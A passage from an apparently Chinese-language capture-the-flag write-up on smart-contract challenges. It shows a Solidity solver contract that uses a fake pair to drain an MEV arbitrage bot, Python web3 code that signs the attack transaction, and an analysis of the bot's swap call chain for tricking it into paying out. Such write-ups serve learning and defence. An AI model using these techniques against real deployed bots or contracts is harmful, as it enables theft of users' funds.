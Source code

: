 ```solidity

contract Solver {
    constructor() {
        FakePair f = new FakePair();
        f.solve(Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780));
    }
}
```

拿到合约后，可以用下面的代码签名：

```python
from web3 import Web3

w3 = Web3()
pk = '11451411' * 8
acc = w3.eth.account.from_key(pk)
print(acc.address)

tx = {
    'from': acc.address,
    'nonce': 1,
    'gas': 10000000,
    'gasPrice': 10**10,
    'data': '0x' + open('code_1.txt').read(),
    'chainId': 2023,
}
signed = w3.eth.account.sign_transaction(tx, pk)
print(signed.rawTransaction.hex())
```

## The Dark Forest

本题和上一题相比，所有函数都加上了对 `msg.sender` 或 `msg.origin` 的限制。于是不再能直接调用 MEV Bot。

Bot 的 Python 代码中，会先对套利交易进行模拟，如果模拟通过再发送：

```python
bot.functions.simulate(pair1_address, pair2_address, amount1, amount2, amount3, direction).call(
    {'nonce': nonce, 'from': acct.address, 'gas': 10 ** 6, 'gasPrice': 10 ** 11}
)
tx = bot.functions.arbitrage(pair1_address, pair2_address, amount1, amount2, amount3, direction).build_transaction(
    {'nonce': nonce, 'from': acct.address, 'gas': 10 ** 6, 'gasPrice': 10 ** 11}
)
```

而模拟与实际执行的区别，主要在于，模拟时会检查 WETH 余额必须增加。

我们暂且先不管这次模拟，先想想，如果直接调用 `arbitrage`，如何让 Bot 吐出余额。

考虑整个调用链：

```plain
bot.arbitrage(...)
	pair2.swap(...)
		WETH.transfer(bot, ...)
		bot.uniswapV2Call(...)
			WETH.transfer(pair1, ...)
			pair1.swap(...)
				some_token.transfer(pair2, ...)
```
